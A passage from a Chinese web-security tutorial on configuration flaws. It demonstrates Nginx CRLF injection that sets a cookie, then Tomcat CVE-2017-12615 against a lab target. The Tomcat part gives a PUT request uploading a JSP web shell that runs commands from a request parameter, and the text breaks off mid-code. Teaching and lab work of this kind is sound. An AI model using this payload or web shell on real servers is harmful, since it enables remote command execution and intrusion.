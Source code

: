 下面，我们一起看上述内容的实例。注意，这里靶场中的Nginx配置和上面图片中一致。

![图片](https://static001.geekbang.org/resource/image/3d/7f/3d231f6ebf2968f195e395f3dc5a097f.png?wh=1918x1206)

我们首先访问了127.0.0.1:8080服务，发现Nginx成功让页面跳转到HTTPS服务，并且页面中也没有cookie信息。其中这里页面显示无法访问此网站，这是因为靶场仅用来演示Nginx配置问题，并没有实际页面支撑，所以导致没有页面内容返回，但它对我们的测试不会造成影响。

![图片](https://static001.geekbang.org/resource/image/77/c3/77c15b32d03e1a536ba91da01a1cc6c3.png?wh=1812x1192)

接着，我们对这个Web应用发起攻击，对127.0.0.1:8080/%0a%0dSet-Cookie:%20a=test进行访问，结果发现页面同样跳转为HTTPS服务，不过此时多出了响应Cookie信息。**这表明我们的CRLF注入成功，并且成功执行了Set-Cookie指令。**

现在，你已经了解了Nginx配置相关的安全问题，知道了它其实就是由CRLF注入导致的。接下来，让我们继续学习Tomcat中的安全配置问题吧。

### Tomcat配置安全问题

首先，我们来了解下Tomcat是什么？

Tomcat 服务器是一个免费的开放源代码的Web应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用。实际上，Tomcat是Apache服务器的扩展，但运行时它是独立运行的，所以当你运行Tomcat时，它实际上是作为一个与Apache独立的进程单独运行。

在对它有了一定的了解之后，我们来对Tomcat做一些安全性分析。Tomcat中存在一个知名的安全配置问题，它就是CVE-2017-12615。具体的问题体现为，当Tomcat运行在Windows主机上，并且在conf/web.xml的配置文件中将DefaultServlet readonly设置为false，那么如果它启用了HTTP PUT请求方法，就会**导致任意写文件的安全问题发生**。

接下来，让我们通过实战，加深一下对Tomcat配置安全问题的理解吧。

首先，登录谜团（mituan.zone）并选择【Tomcat专题：CVE-2017-12615】靶机，如果你可以看到如下页面，那就成功打开了我们的靶场。

![图片](https://static001.geekbang.org/resource/image/49/68/49a74009cf0a8162c0210990862df768.png?wh=1878x1313)

其次，我们要测试一下是否可以上传文件到服务器目录下。具体的实践方式为，使用BurpSuite拦截该网页，获取到如下报文：

```plain
GET / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

然后我们将它进行修改为如下报文，并进行发送。

```plain
PUT /1.jsp/ / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<%
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
      int a = -1;
      byte[] b = new byte[2048];
      out.print("<pre>");
      while((a=in.read(b)) != -1){
                    out.println(new String(b));
```